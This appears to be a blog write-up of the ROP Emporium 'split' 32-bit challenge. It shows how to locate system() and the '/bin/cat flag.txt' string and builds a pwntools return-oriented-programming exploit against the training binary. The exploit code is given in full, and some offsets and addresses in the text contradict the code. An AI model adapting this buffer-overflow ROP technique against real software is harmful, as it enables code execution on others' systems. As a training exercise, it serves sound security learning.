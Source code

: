 ```yaml
---
layout: post
title: ROP Emporium Challenge 1 - Split (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *That useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.*
<!--more-->

# split32

Link: https://ropemporium.com/challenge/split.html


--------------------------


## 1. Calculating EIP overwrite offset

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 41 characters we see only one "41" in RIP registry:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg)


## 2. Studying the binary

We can find the system address with objdump, located in "0x08048430" (the address of system in the .plt section):

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_3.jpg)

Next, we need the address of the string "/bin/cat flag.txt". We can do this using GEF, and finding the address is "0x601060":

```
gdb -q ./split32
break main
r
grep "/bin/cat flag.txt"
``` 

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_4.jpg)

We can find the address of this string with ROPgadget too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_5.jpg)


## 3. Calling system("/bin/cat flag.txt")

The idea is concatenating the addresses (system) + (exit) + (command), just like in [here](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

The problem is that there is not an exit function, so we will look for the instruction *leave*, I will take 0x080484e8:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_2.jpg)

So now we have the addresses of "system" in .plt section, an instruction for "exiting" and the string with the command, we can make a Python exploit:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'split32'

p = process('./'+binary_name)
elf =  ELF(binary_name)

system  = 0x08048430 
command = 0x0804a030 
exit =    0x080484e8
log.info("system %s"  % hex(system))
log.info("command %s" % hex(command))

junk = "A"*44
rop = junk + p32(system) + p32(exit) + p32(command)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```


## 4. Final exploit

The exploit works:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_6.jpg)

Now we will change the calculation of some addresses making it automatic with Python:

```
system  = elf.sym["system"] #system  = 0x08048430 
command = next(elf.search('/bin/cat flag.txt')) #command = 0x0804a030 
exit =    0x080484e8
junk = "A"*44
rop = junk + p32(system) + p32(exit) + p32(command)
```

And it still works! Final exploit:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'split32'

p = process('./'+binary_name)
elf =  ELF(binary_name)

system  = elf.sym["system"] #system  = 0x08048430 
command = next(elf.search('/bin/cat flag.txt')) #command = 0x0804a030 
exit =    0x080484e8
log.info("system %s"  % hex(system))
log.info("command %s" % hex(command))

junk = "A"*44
rop = junk + p32(system) + p32(exit) + p32(command)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

---------------------------------

References: 

- https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/
